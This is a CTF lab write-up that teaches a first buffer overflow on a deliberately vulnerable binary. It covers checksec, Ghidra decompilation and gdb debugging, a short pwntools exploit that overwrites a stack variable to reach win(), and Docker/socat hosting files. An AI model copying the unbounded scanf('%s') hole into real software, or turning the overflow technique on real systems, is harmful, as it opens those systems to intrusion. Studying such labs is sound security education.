# [__Challenge0__](#)

## Description: 

* This challenge will welcome you to the world of Binary Exploitation (PWN). Overflow the buffer to overwrite a variable's value.

## Objective: 

* Overwrite a variable's value via Buffer Overflow.

## Flag:
* `FLAG{my_f1r5t_b0f}`

## Challenge:

First things first, we need to learn some things about the binary we are going to analyze. We start with the `file` command.

```console
➜  challenge git:(main) ✗ file challenge0 
challenge0: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0ddb2d92aa3c369651d8e236e4bc9e37114076a1, not stripped
```

Things we understand from this command:
* `ELF`: Stands for `Executable and Linkable Format` or `Extensible Linking Format` and it is the most common format for executable files, shared libraries and objects. 
* `64-bit LSB x86-64`: The binary has been compiled at a x86-64 operating system and can be executed there. `LSB` stands for `least-significant byte` and defines the endianness of the binary. This one uses little-endian. 
* `shared object`: It is generated from one or more relocatable objects.
* `dynamically linked`: A pointer to the file being linked in is included in the executable and the contents of the file are **not** included at link time. These files are used when the program is run.
* `not stripped`: It has debugging information inside it.

After we got the basic information out of the binary, we can run `strings`, to see any helpful string that exist inside it.



As we can see, there are some useful things here:
* There is a graphical layout of the stack frame.
* There are some strings including `flag.txt`, which is our main goal.

In bigger and more complex binaries, these are helpful guidelines so you will not get lost while reversing.

### Checksec ✅❌

`Checksec` is a bash script that checks the protections of a binary and kernel. We will use it to check the mitigations of our binary.

```console
gef➤  checksec
[+] checksec for '/home/w3th4nds/Desktop/THESIS/challenge0/challenge/challenge0'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   | 
| :---:      | :---:    | :---:   |
| **Canary** | ❌       | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ✅       | Randomizes the **base address** of the binary | 
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

A more in-depth explanation can be found [here](https://blog.siphos.be/2011/07/high-level-explanation-on-some-binary-executable-security/).

A brief explanation of these protections:

* `Canary`: A random value that is generated and put on the stack and is checked before that function is left again. If the canary value is not correct-has been changed or overwritten the application will immediately stop.

* `NX`: Stands for `non-executable segment`, meaning that that we cannot write and/or execute code on the stack.

* `PIE`: Stands for `Position Independent Executable`, which randomizes the base address of the binary, as it tells the loader which virtual address it should use.

* `RelRO`: Stands for `Relocation Read-Only`. The headers of the binary are marked as read-only. 

### Interface 🖥️

The interface of the program looks like this:



As expected, the challenge is self-explanatory. It presents a stack frame and also the objective of the challenge. So, our goal is to overflow the buffer which is 32 bytes, in order to overwrite the `target` value. We can verify this with a large sequence of "A"s as input.

It is obvious that we achieved our goal and got the flag. But, why did this happen? We will disassemble the program to see the reason behind this.

### Disassembly ⛏️

In order to disassemble our program, we need a disassembler like:
* [Ghidra](https://ghidra-sre.org/)
* [Ida-free](https://hex-rays.com/ida-free/)
* [Cutter](https://cutter.re/)
* [Binary Ninja](https://binary.ninja/)
* [Hopper](https://www.hopperapp.com/)

For our examples, we are going to use `Ghidra`. 

### Initial steps 🦶🦶

Most of the programs in C, start with `main()`. If a binary is `stripped`, it will start with `entry()`, but this is something that will not be covered here.

### Using Ghidra 🐍

First we have to import our challenge:



After we import and double click it, we press all the blue buttons (OK, Analyze etc.) and we are at this point:



Analyzing this image to get some basic information about `Ghidra`.

### Symbol tree 🌳

The "Symbol tree" contains all the functions that are used by the program. From there, we can navigate to every function we want e.g. `main()`.

### Decompiler - Pseudocode 📜

The decompiled version of the binary, also known as the pseudocode. It's pseudo-C, an attempt of the decompiler to translate the binary into something readable for us.

### XREFs 

The field in the middle is the assembly code and the XREFS, which will not bother us for the time being.

### Analyzing the functions

Starting from `main()`:



We are going to examine the pseudocode of the program line by line.

These `local` variables, are of type `undefined8`, meaning that the decompiler could not identify the real type of the variables, but it knows it occupies 8 bytes. The `int local_c` is a variable of type `int` (integer).

Then, there are some function calls:

* `setup()`      : Sets the appropriate buffers in order for the challenge to run.
* `banner()`     : Prints the title and the banner.
* `show_stack()` : Prints the addresses and values of the stack.
* `buffer_demo()`: Prints the stack layout.

```c
void setup(void)

{
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  alarm(0x7f);
  return;
}
```

```c
void banner(void)

{
  int iVar1;
  time_t tVar2;
  char *local_48 [4];
  undefined *local_28;
  undefined *local_20;
  undefined *local_10;
  
  local_48[0] = "\x1b[1;33m";
  local_48[1] = &DAT_00100db7;
  local_48[2] = &DAT_00100d28;
  local_48[3] = &DAT_00100d88;
  local_28 = &DAT_00100dbf;
  local_20 = &DAT_00100dc7;
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  iVar1 = rand();
  puts(local_48[iVar1 % 5]);
  putchar(10);
  local_10 = &DAT_00100dd0;
  puts(&DAT_00100dd0);
  return;
}
```

```c
void show_stack(long param_1)

{
  long lVar1;
  int local_c;
  
  printf("\n\n%-19s|%-20s\n","      [Addr]","      [Value]");
  puts("-------------------+-------------------");
  local_c = 0;
  while (local_c < 10) {
    lVar1 = (long)local_c * 8 + param_1;
    printf("0x%016lx | 0x%016lx",lVar1,*(undefined8 *)(param_1 + (long)local_c * 8),lVar1);
    if (((long)local_c & 0x1fffffffffffffffU) == 0) {
      printf(" <- Start of buffer");
    }
    if ((long)local_c * 8 + param_1 == param_1 + 0x20) {
      printf(" <- Dummy value for alignment");
    }
    if ((long)local_c * 8 + param_1 == param_1 + 0x28) {
      printf(" <- Target to change");
    }
    if ((long)local_c * 8 + param_1 == param_1 + 0x30) {
      printf(" <- Saved rbp");
    }
    if ((long)local_c * 8 + param_1 == param_1 + 0x38) {
      printf(" <- Saved return address");
    }
    puts("");
    local_c = local_c + 1;
  }
  puts("");
  return;
}
```

These functions are not needed for the exploitation part, so they will not be explained furthermore. Continuing with `main()`:

All the `locals` were the `undefined8` variables from before. All theese variables together, translate to something like:

```c
char buf[SIZE] = {0};
// or 
char buf[SIZE];
memset(buf, 0x0, SIZE);
```

Meaning that it fills with 0s a buffer of characters. The buffer seems to have 4*8=32 bytes length.

Last but not least, we see that our int value `local_10` is assigned to `0xdeadbeef`. Then, there is a call to `scanf()`

Taking a better look at the first argument of `scanf`:



We see that it is `%s`. But, what does this mean?

From the manual page of scanf:

```console
s      
Matches a sequence of non-white-space characters; the next pointer must be a pointer to  the  initial element  of a character array that is long enough to hold the input sequence and the terminating null byte ('\0'), which is added automatically.  The input string stops at white space or at  the  maximum field width, whichever occurs first.
```

So, the input string stops at white space or at the maximum field width. Good -or bad- thing here, is that there is no limitation to our input string. It will only end when it reads a newline. 
That means, we can write as many characters as we want, leading to a **Buffer Overflow**. But, what is the purpose of that?

As we can see, if the value of `local_10`, which is always `0xdeadbeef` and is never changed, does **NOT** have this value, the program calls `win()`. 

### win() 🏆

```c
void win(void)

{
  char local_38 [40];
  FILE *local_10;
  
  puts("\x1b[1;32m");
  puts("\n[+] You managed to redirect the program\'s flow!\n[+] Here is your reward:\n");
  local_10 = fopen("./flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    printf("%s[-] Error opening flag.txt!\n",&DAT_00100d88);
                    /* WARNING: Subroutine does not return */
    exit(0x45);
  }
  fgets(local_38,0x20,local_10);
  puts(local_38);
  fclose(local_10);
                    /* WARNING: Subroutine does not return */
  exit(0x45);
}
```

This function is our goal, because as we can see, it opens the file "flag.txt" and prints its content on the screen. 

### Goal 🥅

What we need to do is, somehow change the `local_10` value, in order to pass the comparison and call `win()`. This can be done by inserting a big amount of characters to the buffer because `scanf("%s")` does not have limits. This can be seen better inside the `debugger`.

### Debugging 🐞

We open the binary with `gdb`. It helps a lot to add an extension to default `gdb`, some of them may be:

* [gef](https://gef.readthedocs.io/en/master/)
* [peda](https://github.com/longld/peda)
* [pwndbg](https://github.com/pwndbg/pwndbg)

```console
➜  challenge gdb ./challenge0 
GNU gdb (Ubuntu 8.1.1-0ubuntu1) 8.1.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
96 commands loaded for GDB 8.1.1 using Python engine 3.6
Reading symbols from ./challenge0...(no debugging symbols found)...done.
gef➤
```

Now that we are inside the debugger, we are going to use some commands to help us debug this and other binaries later.

### Commands ❓

We can find many instructions at this [cheatsheet](https://cs.brown.edu/courses/cs033/docs/guides/gdb.pdf).

*  `disassemble`: It prints the instructions of given function, we are going to use `main` here.

```gdb
gef➤  disass main
Dump of assembler code for function main:
   0x0000000000000eff <+0>:	push   rbp
   0x0000000000000f00 <+1>:	mov    rbp,rsp
   0x0000000000000f03 <+4>:	sub    rsp,0x30
   0x0000000000000f07 <+8>:	call   0xead <setup>
   0x0000000000000f0c <+13>:	call   0xaff <buffer_demo>
   0x0000000000000f11 <+18>:	mov    QWORD PTR [rbp-0x30],0x0
   0x0000000000000f19 <+26>:	mov    QWORD PTR [rbp-0x28],0x0
   0x0000000000000f21 <+34>:	mov    QWORD PTR [rbp-0x20],0x0
   0x0000000000000f29 <+42>:	mov    QWORD PTR [rbp-0x18],0x0
   0x0000000000000f31 <+50>:	mov    eax,0xdeadbeef
   0x0000000000000f36 <+55>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000000f3a <+59>:	mov    eax,0xdeadc0de
   0x0000000000000f3f <+64>:	mov    QWORD PTR [rbp-0x10],rax
   0x0000000000000f43 <+68>:	lea    rax,[rbp-0x30]
   0x0000000000000f47 <+72>:	mov    rdi,rax
   0x0000000000000f4a <+75>:	call   0xd17 <show_stack>
   0x0000000000000f4f <+80>:	lea    rdi,[rip+0x5ca]        # 0x1520
   0x0000000000000f56 <+87>:	mov    eax,0x0
   0x0000000000000f5b <+92>:	call   0x880 <printf@plt>
   0x0000000000000f60 <+97>:	lea    rax,[rbp-0x30]
   0x0000000000000f64 <+101>:	mov    rsi,rax
   0x0000000000000f67 <+104>:	lea    rdi,[rip+0x611]        # 0x157f
   0x0000000000000f6e <+111>:	mov    eax,0x0
   0x0000000000000f73 <+116>:	call   0x8f0 <__isoc99_scanf@plt>
   0x0000000000000f78 <+121>:	mov    eax,0xdeadbeef
   0x0000000000000f7d <+126>:	cmp    QWORD PTR [rbp-0x8],rax
   0x0000000000000f81 <+130>:	jne    0xf8f <main+144>
   0x0000000000000f83 <+132>:	mov    edi,0x20
   0x0000000000000f88 <+137>:	call   0x850 <putchar@plt>
   0x0000000000000f8d <+142>:	jmp    0xf94 <main+149>
   0x0000000000000f8f <+144>:	call   0xa3a <win>
   0x0000000000000f94 <+149>:	lea    rsi,[rip+0x10d]        # 0x10a8
   0x0000000000000f9b <+156>:	lea    rdi,[rip+0x5e0]        # 0x1582
   0x0000000000000fa2 <+163>:	mov    eax,0x0
   0x0000000000000fa7 <+168>:	call   0x880 <printf@plt>
   0x0000000000000fac <+173>:	mov    eax,0x0
   0x0000000000000fb1 <+178>:	leave  
   0x0000000000000fb2 <+179>:	ret    
End of assembler dump.
```

* `breakpoint`: Set breakpoints to address so when the program reaches this address, it stops in order to examine registers etc.

```gdb
gef➤  b main
Breakpoint 1 at 0xf03
```

* `run`: It starts the program.



As we can see, it stopped at `main`, because we set the `breakpoint` there earlier.

* `continue`: It continues the program from where it was stopped until it hits another breakpoint.

* `[n]ext[i]`: Steps through a single x86 instruction. Steps over calls.

* `[s]tep[i]`: Steps through a single x86 instruction. Steps into calls.

* `x/10gx <register-address>`: It examines the given register or address.

We do not need to analyze another command for this example, we will see more on the next binaries. 

We go to `next instruction` with `ni`, until we reach the address where the buffer is set to 0.



We can see that the buffer starts from `rbp-0x30` and ends to `rbp-0x18`. Then, at `rbp-0x8`, the value `0xdeadbeef` is stored. If we continue a little more, we can see our vulnerable `scanf()` and a comparison.



We see that it compares whatever is stored at `rbp-0x8` with `rax`, which contains `0xdeadbeef` as we see from <main+126>.

Taking a look at the `rbp-0x8` and `rbp-0x30` register:



Each "line" is 16 bytes or 0x10. We can understand that the buffer is 0x10 + 0x10 = 0x20 or 32 bytes. After that, 0x8 bytes have the dummy value and then the desired value is stored. That means, we need to fill 0x20 + 0x8 or 40 bytes of junk.

If we start the program again and we set a `breakpoint` at the comparison and inset the input we see below:

```gdb
gef➤  b *main+126
Breakpoint 3 at 0x555555554c5f
```

```console
➜  challenge python -c "print('a'*0x10+'b'*0x10 + 'c'*0x8 + 'd'*0x4)"
aaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbccccccccdddd
```

We are at this point:



Taking a look at the `rbp-0x30` register:



As expected:
* First 0x10 bytes are covered with 0x61 which is the hex representation of "a".
* Next  0x10 bytes are covered with 0x62 which is the hex representation of "b".
* Next  0x08 bytes are covered with 0x63 which is the hex representation of "c".
* Last  0x04 bytes are covered with 0x64 which is the hex representation of "d".

We see that the value `0xdeadbeef` is now `0x64646464`. We achieved our goal and changed the value of `target` from `0xdeadbeef` to `0x64646464`.

### Exploit 📜

```python
#!/usr/bin/python3.8
import warnings
from pwn import *
from termcolor import colored
warnings.filterwarnings("ignore")

context.log_level = "error"

LOCAL  = False
check  = True

while check:
  # Open a local process or a remote
  if LOCAL:
    r   = process("./challenge0")
  else:
    r   = remote("0.0.0.0", 1337)

  # Overflow the buffer with 44 bytes and overwrite the address of "target" with junk.
  r.sendlineafter(">", "A" * 44)

  # Read flag - unstable connection
  try:
    flag = r.recvline_contains("FLAG").decode()
    print(colored(f"\n[+] Flag: {flag}\n", "green"))
    check = False
  except:
    print(colored("\n[-] Failed to connect!", "red"))
  r.close()
```

Explaining the exploit:

First of all, we need to install [pwntools](https://docs.pwntools.com/en/stable/install.html).

The built-in functions are pretty self-explanatory.

```python
r = process("./challenge0")    # Opens a local process of the file given
r = remote("IP", port)         # Opens a remote instance on the given IP and port
e = ELF("./challenge0")        # Exposes functionality for manipulating ELF files
r.sendlineafter(">", "string") # Sends after ">" the srting "string"
r.recvline_contains("FLAG")    # Receive the line containing the string "FLAG"
r.close()                      # Closes the connection
```

### Docker 🐋

In order to set up a virtual environment for the program to run, we set up `Docker` instances. There are 3 files that we are going to use as templates:

* `Dockerfile`:

```dockerfile
FROM ubuntu:18.04

ENV DEBIAN_FRONTEND noninteractive

# Update
RUN apt-get update -y

# Install dependencies
RUN apt-get install -y lib32z1 libseccomp-dev socat supervisor

# Clean up
RUN apt-get clean && rm -rf /var/lib/apt/lists/*

# Create ctf-user
RUN groupadd -r ctf && useradd -r -g ctf ctf
RUN mkdir -p /home/ctf

# Configuration files/scripts
ADD config/supervisord.conf /etc/

# Challenge files
COPY --chown=ctf challenge/ /home/ctf/

# Set some proper permissions
RUN chown -R root:ctf /home/ctf
RUN chmod 750 /home/ctf/challenge0
RUN chmod 440 /home/ctf/flag.txt

EXPOSE 1337

CMD ["/usr/bin/supervisord", "-c", "/etc/supervisord.conf"]
```

* `build-docker.sh`:

```bash
#!/bin/bash
docker build --tag=challenge0 .
docker run -p 1337:1337 --rm --name=challenge0 challenge0%
```

* `supervisord.conf`:

```conf
[supervisord]
nodaemon=true
logfile=/dev/null
logfile_maxbytes=0
pidfile=/run/supervisord.pid

[program:socat]
user=ctf
command=socat -dd TCP4-LISTEN:1337,fork,reuseaddr EXEC:/home/ctf/challenge0,pty,echo=0,raw,iexten=0
directory=/home/ctf
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0
```

### PoC 🏁



This was the first interaction with a binary that is vulnerable to **Buffer Overflow**.
